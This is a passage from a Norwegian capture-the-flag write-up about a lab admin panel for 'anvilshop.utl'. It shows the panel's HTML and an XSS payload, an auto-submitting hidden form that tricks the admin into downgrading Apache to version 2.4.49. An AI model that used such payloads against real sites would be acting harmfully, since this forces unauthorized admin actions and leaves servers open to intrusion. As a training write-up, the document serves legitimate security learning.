 Kildekoden til denne siden inneholder flagget, og noen interessante funksjoner

```html
<section class="content">
  <header>

  <h1>Infrastructure Management</h1>

  </header>


  <h1> FLAG: xxxxxxx </h1>

  <form action="/admin/update" method="post">
    <label for="service">Service:</label>
    <select name="service" class="selectpicker form-control">

      <option value="apache">anvilshop.utl ( apache )</option>

    </select>


    <label for="version">Version</label>
    <select name="version" class="selectpicker form-control">

          <option value="2.4.51">2.4.51</option>

          <option value="2.4.49">2.4.49</option>

    </select>
    <input class="btn" type="submit" value="Update">
  </form>

</section>
```

> Godt utført!
> Tilgang til administrasjonspanelet kan bli nyttig for videre aksess.



### 2.04_webserver_1

Tar vi nå en titt på `http://anvilshop.utl`, så er det ikke så mye som skjer. Men gjennom informasjonen fra admin-panelet, så vet vi at det er mulig å nedgradere Apache-versjonen til 2.4.49. Igjen lurer vi admin til å lese en XSS-payload:

```html
<form action="/admin/update" method="post" id="foo">
<input type="hidden" value="apache" name="service">
<input type="hidden" value="2.4.49" name="version"</input>
<input class="btn" type="submit" value="Update">
</form>
<script>document.getElementById("foo").submit()</script>
```
